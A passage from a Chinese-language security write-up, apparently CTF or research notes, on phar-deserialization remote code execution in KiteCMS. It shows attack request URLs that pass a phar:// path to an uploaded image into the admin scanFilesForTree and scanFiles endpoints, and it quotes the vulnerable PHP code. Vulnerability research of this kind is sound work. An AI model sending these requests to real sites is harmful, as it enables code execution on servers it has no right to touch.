 ![pic24](D:\this_is_feng\github\CTF\Web\picture\pic24.png)



然后phar梭哈：

```
http://www.kitecms.com/admin/admin/scanFilesForTree?dir=phar://./upload/20210606/1c57fd5e8abbd8ce9e6715c28227a95f.png
```

![pic25](D:\this_is_feng\github\CTF\Web\picture\pic25.png)



## phar rce 2

是`application/admin/controller/Admin.php`的`scanFiles`方法：

```php
    function scanFiles($dir) {
        if (!is_dir($dir)) {
            return [];
        }
```

没啥好说的，还是直接打：

```
http://www.kitecms.com/admin/admin/scanFiles?dir=phar://./upload/20210606/1c57fd5e8abbd8ce9e6715c28227a95f.png
```



## phar rce 3（质量高一些）

这个phar比较难发现，我找到这个phar还是比较开心的。

主要是把admin控制器下的代码都给过了一遍，全tm的都是数据库操作。。。除了模板和文件上传就全都数据库，模板也彻底打不动了，因此再好好看一下文件上传。



入口就不说了，这个CMS可以利用这个phar的地方太多了，例如`application/admin/controller/Upload.php`的`uploadFile`方法这样的。

主要就是这样：

```php
        // 获取表单上传文件
        $file = Request::file('file');

        $uploadObj = new UploadFile($this->site_id);
        $ret = $uploadObj->upload($file, 'image');
```

跟进`$uploadObj->upload`方法，前面是一些验证，里面看了利用不了，看看下面的部分：

```php
        $result =  $this->uploadHandler->upload($file);
        $data   =  array_merge($result, ['site_id' => $this->site_id]);
        SiteFile::create($data);
        return $data;
```
